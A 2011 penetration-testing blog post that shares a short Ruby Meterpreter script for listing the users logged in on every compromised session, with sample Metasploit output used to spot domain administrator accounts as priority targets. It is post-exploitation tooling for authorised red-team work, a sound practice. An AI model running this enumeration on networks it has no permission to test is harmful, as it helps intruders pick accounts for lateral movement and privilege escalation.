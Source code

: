 ---
author: mubix
comments: true
date: 2011-09-17 02:37:31+00:00
layout: post
title: Who Is Logged In? A Quick Way To Pick Your Targets
categories:
- meterpreter
---

Say you go for the 500+ shells on an internal test or your phishing exersice goes way better than you thought. Well you need to get your bearings quickly and going into each shell and doing a ps, then looking through the list for all the users logged in is a bit of a pain and defintely not ideal.

I wrote a quick script that you can throw in the meterpreter scripts folder to aide you a bit with this:

```ruby    
users = []
client.sys.process.each_process do |x|
        users << x["user"]
end

users.sort!
users.uniq!
users.delete_if {|x| x =~ /^NT AUTHORITY/}
users.delete_if {|x| x == ""}
loggedin = users.join(', ')
print_status(loggedin)
```

All it does is automate the process I said above, used in concert with the 'sessions -s' command makes life a bit easier:

```    
msf  post(enum_logged_on) > sessions -s loggedin
[*] Running script loggedin on all sessions...
[*] Session 1 (victimgatewayaddress:21638):
[*] DOMAIN\User1
[*] Session 2 (victimgatewayaddress:39900):
[*] DOMAIN\AdminUser1
[*] Session 3 (victimgatewayaddress:59395):
[*] DOMAIN\User5
[*] Session 5 (victimgatewayaddress:21639):
[*] DOMAIN\User20
[*] Session 6 (victimgatewayaddress:21640):
[*] COMPUTERNAME\Administrator, DOMAIN2\AdminUser7
[*] Session 7 (victimgatewayaddress:39901):
[*] DOMAIN\User55
```    

You can see from this output I probably want to start with session 2, and probably 6 as well as it seems to be on another domain and an admin to boot. The example is small but on a larger scale this can start to be much more important for time management. I'm sure there are some of you out there that realized after spending hours with another session that you had one with a DA signed into it on a different system.

Just a disclaimer, this ONLY shows who is logged into the sessions you have, not remote systems.
